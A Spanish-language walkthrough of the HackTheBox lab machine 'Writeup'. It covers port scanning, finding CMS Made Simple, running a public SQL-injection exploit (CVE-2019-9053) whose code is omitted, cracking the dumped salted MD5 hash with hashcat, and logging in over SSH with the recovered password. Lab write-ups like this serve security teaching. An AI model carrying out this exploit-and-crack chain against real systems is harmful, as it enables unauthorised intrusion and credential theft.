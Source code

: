 
# 🕵️‍♂️ Reconocimiento

Comenzamos con el escaneo de puertos utilizando `nmap`:

```bash
nmap -p- --open -sS -Pn -vvv -n --min-rate 5000 10.10.10.138 -oG allports
nmap -sCV -p80,22 10.10.10.138
```

![[Writeup1.png]]

El resultado indica que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.

Esto nos permite acceder a:

- 🌐 Página principal: [http://10.10.10.138/](http://10.10.10.138/)
- 📄 Archivo `robots.txt`: [http://10.10.10.138/robots.txt](http://10.10.10.138/robots.txt)

---

Al entrar a la página principal vemos que tiene una protección anti-DDoS que bloquea la enumeración.  
Probamos fuzzing con `ffuf` y `gobuster`, pero no obtuvimos resultados útiles.

![[Writeup2.png]]

Sin embargo, al ingresar a `robots.txt` encontramos una ruta interesante:

- [http://10.10.10.138/writeup/](http://10.10.10.138/writeup/)

![[Writeup3.png]]

Al inspeccionar el código fuente del sitio `/writeup`, vemos que el CMS utilizado es **CMS Made Simple**.  
El pie de página indica un copyright de 2004–2019, lo que sugiere que podría estar usando una versión antigua (potencialmente vulnerable).

![[Writeup4.png]]

---

# 🔍 Búsqueda de vulnerabilidades

Buscamos en `searchsploit`:

```bash
searchsploit CMS Made Simple
```

Encontramos una vulnerabilidad de **inyección SQL no autenticada** en la versión **2.2.10** (CVE-2019-9053).

![[Writeup5.png]]

La copiamos con:

```bash
searchsploit -m php/webapps/46635.py
```

Al ejecutar el exploit en **Python 2.7** tuvimos errores con el módulo `termcolor`, así que lo convertimos a **Python 3** usando ChatGPT.

---

# 🐍 Exploit en Python 3

Guardamos el siguiente código como `exploit.py`:

```python
# (Pegar aquí el código completo convertido a Python 3 que ya tenés)
```

Ejecutamos el script con:

```bash
python3 exploit.py -u http://10.10.10.138/writeup/ -w /usr/share/wordlists/rockyou.txt
```

> 🔧 El parámetro `-u` es para la URL objetivo y `-w` es para el diccionario.  
> ⚙️ Tuvimos que modificar la variable `TIME = 1` a `TIME = 2` para evitar falsos positivos.

![[Writeup6.png]]

---

# 🧂 Resultado del exploit

El exploit extrae la siguiente información:

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

---

# 🔓 Crackear contraseña con Hashcat

Como el hash tiene **32 caracteres**, es probable que sea **MD5**.

Creamos un archivo llamado `hash` con el contenido:

```
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

Ejecutamos Hashcat:

```bash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt
```

Parámetros:

- `-a 0`: Ataque directo con diccionario.
- `-m 20`: Tipo de hash → MD5(salt + password)

Resultado del crackeo:

```
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

![[Writeup7.png]]

Ahora que ya tenemos un usuario y contraseña válidos, vamos a intentar conectarnos por SSH:

- Usuario: `jkr`
- Contraseña: `raykayjay9`

---

# 💻 Intrusión por SSH

```bash
ssh jkr@10.10.10.138
# Contraseña: raykayjay9
```

![[Writeup8.png]]

---

# 🧠 Notas

Un **salt** es una **cadena aleatoria** que se añade a una contraseña antes de aplicarle una función hash (como MD5, SHA-1, etc.). Esto se hace para:

- Evitar que dos usuarios con la misma contraseña tengan el mismo hash.
- Hacer que los ataques con diccionarios precomputados (como rainbow tables) sean inútiles sin conocer el salt.

---

### 🧠 Reglas comunes para identificar hashes por longitud:

| Tipo de Hash | Longitud | Ejemplo |
|--------------|----------|---------|
| **MD5**      | 32       | `5f4dcc3b5aa765d61d8327deb882cf99` |
| **SHA-1**    | 40       | `5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8` |
| **SHA-256**  | 64       | `5e884898da28047151d0e56f8dc6292773603d0d6aabbdd7...` |
| **SHA-512**  | 128      | `cf83e1357eefb8bd...` |
| **NTLM**     | 32       | `32ed87bdb5fdc5e9cba88547376818d4` |
| **bcrypt**   | 60       | `$2y$10$e0NRW5B8...` |
| **LM hash**  | 32       | Solo letras mayúsculas y números |

---

# 📂 Archivo donde se guardan los hashes crackeados por Hashcat

Podés buscar el archivo con:

```bash
find / -name "hashcat.potfile" 2>/dev/null
```

En mi caso estaba en:

```bash
/root/.local/share/hashcat/hashcat.potfile
```

Para ver los hashes crackeados:

```bash
cat /root/.local/share/hashcat/hashcat.potfile
```

---

# 📚 Créditos

Se utilizó ayuda de los siguientes recursos:

- [🎥 Video de la maquina que usamos](https://www.youtube.com/watch?v=sG7_MYqAcu0)
- Writeup en PDF de HackTheBox:  
  
